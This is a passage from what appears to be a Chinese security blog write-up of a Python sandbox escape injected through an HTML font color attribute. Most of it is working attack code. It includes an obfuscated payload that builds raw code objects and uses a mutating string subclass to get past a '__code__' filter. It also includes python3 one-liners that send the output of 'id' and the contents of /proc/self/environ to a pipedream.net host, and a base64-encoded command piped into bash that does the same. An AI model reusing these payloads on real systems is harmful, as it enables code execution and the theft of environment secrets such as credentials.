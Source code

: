     
    
    <font color="[ [ [ [ ftype(ctype(0, 0, 0, 0, 3, 67, b't\\x00d\\x01\\x83\\x01\\xa0\\x01d\\x02\\xa1\\x01\\x01\\x00d\\x00S\\x00', (None, 'requests', 'https://myhost'), ('__import__','get'), (), '<stdin>', '', 1, b'\\x12\\x01'), {})() for ftype in [type(lambda: None)] ] for ctype in [type(getattr(lambda: {None}, Word('__code__')))] ] for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))]] and 'red'">exploit</font>
    
    generic
    
    681 Bytes
    
    © Guge's Blog

替换了payload后，白帽子在他的服务器上成功地收到了pingbank：

`User-Agent: python-requests/2.31.0`

这也证明了我们可以在系统上实现任意代码执行，再次修改 poc 并依靠它来将命令输出发送到白帽子的服务器：

    
    
    python3 -c "import requests;requests.get('https://en2celq7rewbul.m.pipedream.net/$(id)')"
    
    generic
    
    89 Bytes
    
    © Guge's Blog

![]()

    
    
    python3 -c "import requests;requests.get('https://en2celq7rewbul.m.pipedream.net/$(cat /proc/self/environ)')"
    
    generic
    
    109 Bytes
    
    © Guge's Blog
    
    
    (None, 'os', 'echo cHl0aG9uMyAtYyAiaW1wb3J0IHJlcXVlc3RzO3JlcXVlc3RzLmdldCgnaHR0cHM6Ly9lbjJjZWxyN3Jld2J1bC5tLnBpcGVkcmVhbS5uZXQvJChjYXQgL3Byb2Mvc2VsZi9lbnZpcm9uKScpIg== | base64 -d|bash'), ('__import__', 'system')
    
    generic
    
    212 Bytes
    
    © Guge's Blog
    
    
    <font color="[ [ [ [ ftype(ctype(0, 0, 0, 0, 3, 67, b't\\x00d\\x01\\x83\\x01\\xa0\\x01d\\x02\\xa1\\x01\\x01\\x00d\\x00S\\x00', (None, 'os', 'echo cHl0aG9uMyAtYyAiaW1wb3J0IHJlcXVlc3RzO3JlcXVlc3RzLmdldCgnaHR0cHM6Ly9lbjJjZWxyN3Jld2J1bC5tLnBpcGVkcmVhbS5uZXQvJChjYXQgL3Byb2Mvc2VsZi9lbnZpcm9uKScpIg== | base64 -d|bash'), ('__import__', 'system'), (), '<stdin>', '', 1, b'\\x12\\x01'), {})() for ftype in [type(lambda: None)] ] for ctype in [type(getattr(lambda: {None}, Word('__code__')))] ] for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))]] and 'red'">exploit</font>
    